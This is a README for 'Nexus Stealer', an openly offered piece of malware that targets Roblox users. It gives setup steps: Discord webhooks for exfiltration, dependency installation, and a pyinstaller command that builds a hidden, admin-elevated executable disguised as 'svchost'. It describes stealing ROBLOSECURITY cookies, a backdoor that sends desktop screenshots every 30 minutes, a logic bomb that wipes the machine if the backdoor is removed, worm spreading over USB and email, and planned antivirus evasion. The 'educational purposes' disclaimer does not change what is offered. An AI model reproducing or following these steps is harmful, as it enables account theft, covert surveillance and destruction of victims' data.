 # NEXUS STEALER *V1.0.0*

**Disclaimer**: This code is provided for **educational purposes only**. I do not endorse or encourage any misuse, illegal activities, or damage caused by this code. By using this script, you agree that **you are solely responsible** for your actions. I bears no liability for any consequences arising from the use of this tool.

---

## Updates
**Version :** *V1.0.0*

- Official Public Release

## Following Update
**Version :** *V1.1.0*

- Better AV Evasion

---

## Installation and customization

- Change the :
```
COOKIE_WEBHOOK_URLS = ["1", "1_backup"]
SCREENSHOT_WEBHOOK_URLS = ["2", "2_backup"]
```
By 4 **DIFFERENT** discord webhooks

- Install the dependencies :
```
pip install psutil requests pywin32 pyautogui cryptography netifaces
```
- Convert to .exe :
```
pyinstaller --onefile --noconsole --hidden-import psutil --hidden-import requests --hidden-import pywin32 --hidden-import pyautogui --hidden-import cryptography --hidden-import netifaces --hidden-import win32crypt --hidden-import win32gui --hidden-import win32con --hidden-import win32process --hidden-import win32security --hidden-import win32api --hidden-import win32file --uac-admin --name svchost NexusStealer.py
```

---

## Explanation

When executed on a machine, the script will wait for a **Roblox Related** application to be oppened. He will then search the whole computer data and browser data in search of the roblox login cookie (ROBLOSECURITY). Once found, it will send the cookie to the designed webhook, leave behind him a backdoor that will send a screenshot of the targeted user desktop **every 30 Minutes** and leave another logic bomb that will continuisly check to see if the backdoor has been deleted, if yes, it will wipe the whole user computer from top to bottom. 

***DO NOT RUN THIS SCRIPT ON YOUR OWN MACHINE OR ON SOMEONE ELSE MACHINE WITHOUT THEIR CONSENT.***
**Ive implemented a WORM in the script, meaning that it will spread in the network through usb and emails. Please be cautious of the uses of this script.**
